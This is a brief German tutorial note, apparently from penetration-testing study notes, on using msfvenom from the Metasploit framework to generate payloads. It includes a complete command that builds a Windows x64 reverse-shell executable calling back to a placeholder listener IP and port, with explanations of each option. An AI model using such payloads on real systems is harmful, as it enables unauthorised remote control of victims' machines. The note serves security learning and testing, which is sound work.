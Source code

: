 *Der "einmal hin alles drin" Payload laden*

msfvenom ist Teil des Metasploit-Frameworks und wird verwendet, um Code für Reverse- und Bind-Shells zu generieren. Es wird häufig bei der Entwicklung von Exploits auf niedrigerer Ebene verwendet, um hexadezimalen Shellcode zu generieren, wenn z. B. ein Pufferüberlauf-Exploit entwickelt wird; es kann jedoch auch verwendet werden, um Payloads in verschiedenen Formaten zu generieren (z. B. .exe, .aspx, .war, .py)

Standard Syntax

```
msfvenom -p <Payload> <Options>
```

Beispiel anhand einer Windows x64 TCP Reverse shell

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
Erklärung der Optionen:
-f <Format>
	 -> Spezifiziert den output hier auf eine *.exe
-o <file>
	-> Die Output Location und den Dateinamen der Generierten Payload
LHOST=<ip>
	-> Spezifiziert die IP für das Call Back der Reverse shell
LPORT=<port>
	-> Spezifiziert den Call back port meistens bei Metasploit 4444




